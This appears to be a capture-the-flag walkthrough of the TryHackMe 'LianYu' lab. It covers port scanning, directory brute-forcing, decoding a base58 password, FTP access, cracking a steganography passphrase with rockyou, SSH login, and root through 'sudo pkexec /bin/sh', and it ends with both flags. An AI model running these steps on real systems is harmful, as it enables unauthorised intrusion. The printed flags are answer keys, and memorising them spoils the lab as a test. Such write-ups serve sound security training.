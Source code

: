 # LianYu
---

## Recon
**Port Scan**
```sh
└─$ sudo nmap -sS -sV -O  10.10.173.121 -vv                        

21/tcp  open  ftp     syn-ack ttl 60 vsftpd 3.0.2
22/tcp  open  ssh     syn-ack ttl 60 OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
80/tcp  open  http    syn-ack ttl 60 Apache httpd
111/tcp open  rpcbind syn-ack ttl 60 2-4 (RPC #100000)

```
- After enumerating a little bit about RPC I didn't found any vulnerability for that particular version

- In the webpage we found this!
![image](https://github.com/user-attachments/assets/43c5139e-eba7-4b08-93ed-8ae2466ef88f)
- But I didn't find any important info in the comment on its source-code

**Directory Enumeration**
```sh
└─$ gobuster dir -u http://10.10.173.121/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o directory.txt 

/island
```
![image-1](https://github.com/user-attachments/assets/7e6badb5-16cd-409f-8b68-30884514c59b)
- We found an important code word - `vigilante`
- I searched about this word but found noting interesting

```sh
└─$ gobuster dir -u http://10.10.173.121/island/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o directory.txt

/2100
```
- `http://10.10.173.121/island/2100/` here we found a video but its been deleted

![image-2](https://github.com/user-attachments/assets/a2de7b97-7d4b-447c-aa23-04406d3e0bb4)

- There is a hint here `you can avail your .ticket here but how?`. Its telling us to avail something which has `.ticket` extension.
    - **It seems we need to scan for web content in this directory**
    - **Lets use `Seclists`**
    - **At first run this command `sudo apt -y install seclists`**
```sh
└─$ seclists

> seclists ~ Collection of multiple types of security lists

/usr/share/seclists
├── Discovery
├── Fuzzing
├── IOCs
├── Miscellaneous
├── Passwords
├── Pattern-Matching
├── Payloads
├── Usernames
└── Web-Shells

└─$ sudo gobuster dir -u http://10.10.173.121/island/2100/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 40 -x ticket -o directory.txt
/green_arrow.ticket


``` 
![image-3](https://github.com/user-attachments/assets/8d9715c2-1af0-487d-8a64-0b4dc5168313)
- I think it could be a password for ftp or ssh
- Remember we found a code word 
- After using `vigilante` as username and `RTy8yhBQdscX` as password we found nothing at both ssh and ftp
- I think `RTy8yhBQdscX` this could be encoded with any hash format as it is a password
- As I searched online I found that `RTy8yhBQdscX` is a base58 hash Lets crack it!


![image-4](https://github.com/user-attachments/assets/b4b328c0-1e7a-42ab-b9fd-a1c897ffc57e)
- Password - `!#th3h00d`

- Lets Try with FTP first
```sh
└─$ ftp 10.10.173.121
Connected to 10.10.173.121.
220 (vsFTPd 3.0.2)
Name (10.10.173.121:******): vigilante
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||24269|).
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 May 05  2020 .
drwxr-xr-x    4 0        0            4096 May 01  2020 ..
-rw-------    1 1001     1001           44 May 01  2020 .bash_history
-rw-r--r--    1 1001     1001          220 May 01  2020 .bash_logout
-rw-r--r--    1 1001     1001         3515 May 01  2020 .bashrc
-rw-r--r--    1 0        0            2483 May 01  2020 .other_user
-rw-r--r--    1 1001     1001          675 May 01  2020 .profile
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
226 Directory send OK.

ftp> mget *
mget Leave_me_alone.png [anpqy?]? y
229 Entering Extended Passive Mode (|||51175|).
150 Opening BINARY mode data connection for Leave_me_alone.png (511720 bytes).
100% |***************************************************************************************************************************|   499 KiB  118.49 KiB/s    00:00 ETA
226 Transfer complete.
511720 bytes received in 00:04 (113.90 KiB/s)
mget Queen's_Gambit.png [anpqy?]? y
229 Entering Extended Passive Mode (|||56609|).
150 Opening BINARY mode data connection for Queen's_Gambit.png (549924 bytes).
100% |***************************************************************************************************************************|   537 KiB  169.36 KiB/s    00:00 ETA
226 Transfer complete.
549924 bytes received in 00:03 (161.00 KiB/s)
mget aa.jpg [anpqy?]? y
229 Entering Extended Passive Mode (|||55026|).
150 Opening BINARY mode data connection for aa.jpg (191026 bytes).
100% |***************************************************************************************************************************|   186 KiB  182.20 KiB/s    00:00 ETA
226 Transfer complete.
191026 bytes received in 00:01 (156.34 KiB/s)

ftp> mget .other_user
mget .other_user [anpqy?]? y
229 Entering Extended Passive Mode (|||7407|).
150 Opening BINARY mode data connection for .other_user (2483 bytes).
100% |***************************************************************************************************************************|  2483        5.11 MiB/s    00:00 ETA
226 Transfer complete.
2483 bytes received in 00:00 (14.08 KiB/s)
```

```sh
┌──(******㉿kali)-[~/CTF{}/THM/lianyu]
└─$ ls
 Leave_me_alone.png  "Queen's_Gambit.png"   aa.jpg   directory.txt
                                                                                                                                                                        
┌──(******㉿kali)-[~/CTF{}/THM/lianyu]
└─$ ls                            
 Leave_me_alone.png  "Queen's_Gambit.png"   aa.jpg   directory.txt
                                                                                                                                                                        
┌──(******㉿kali)-[~/CTF{}/THM/lianyu]
└─$ stegseek -sf aa.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "password"
[i] Original filename: "ss.zip".
[i] Extracting to "aa.jpg.out".

                                                                                                                                                                        
┌──(******㉿kali)-[~/CTF{}/THM/lianyu]
└─$ ls
 Leave_me_alone.png  "Queen's_Gambit.png"   aa.jpg   aa.jpg.out   directory.txt
                                                                                                                                                                        
┌──(******㉿kali)-[~/CTF{}/THM/lianyu]
└─$ file aa.jpg.out  
aa.jpg.out: Zip archive data, at least v2.0 to extract, compression method=deflate
                                                                                                                                                                        
┌──(******㉿kali)-[~/CTF{}/THM/lianyu]
└─$ unzip aa.jpg.out
Archive:  aa.jpg.out
  inflating: passwd.txt              
  inflating: shado                   
                                                                                                                                                                        
┌──(******㉿kali)-[~/CTF{}/THM/lianyu]
└─$ ls     
 Leave_me_alone.png  "Queen's_Gambit.png"   aa.jpg   aa.jpg.out   directory.txt   passwd.txt   shado
                                                                                                                                                                        
┌──(******㉿kali)-[~/CTF{}/THM/lianyu]
└─$ cat shado     
M3tahuman
```
- It could be a Password
```sh
└─$ cat .other_user 
Slade Wilson was 16 years old 
```
- `slade` could be uesr name for ssh

## Privilege Escalation
```sh
slade@LianYu:~$ ls 
user.txt
slade@LianYu:~$ cat user.txt 
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
                        --Felicity Smoak

slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
slade@LianYu:~$ 
slade@LianYu:~$ 
slade@LianYu:~$ 
slade@LianYu:~$     sudo pkexec /bin/sh
# ls
ls: not found
# ls
root.txt
# cat root.txt  
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
                                                                              --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825

```

### user.txt : `THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}`
### root.txt :`THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}`

